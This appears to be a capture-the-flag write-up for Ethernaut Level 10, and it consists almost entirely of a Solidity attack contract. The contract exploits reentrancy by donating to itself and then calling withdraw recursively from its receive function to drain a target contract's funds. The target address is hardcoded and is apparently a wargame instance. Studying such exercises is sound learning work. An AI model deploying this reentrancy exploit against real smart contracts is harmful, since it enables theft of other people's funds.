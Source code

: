 +++
title = 'Ethernaut Level 10 - Reentrance'
date = 2024-04-11 01:00:00
draft = false

featured_image =  '/images/ethernaut.png'
background_image= '/images/ethernaut.png'
summary = 'Reentrance Attack - recursive winning'
tags = [ 'writeups' , 'blockchain' ]
+++

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Reentrance {
    function donate(address _to) external  payable;
    function balanceOf(address _who) external  view returns (uint256 balance);
    function withdraw(uint256 _amount) external ;
} 


contract Attack {
    Reentrance target = Reentrance(0xBE2d56c354dD97062916A849d36ECC57281aC38a);
    constructor() payable { 
        // Donate to self
        target.donate{value:1000000000000000}(address(this));
    }

    // Trigger Reentrance loop
    function pwn() public  {
        target.withdraw(1000000000000000);
    }

    // Reentrance to drain all the funds
    receive()  external payable { 
        target.withdraw(msg.value);
    }
}
```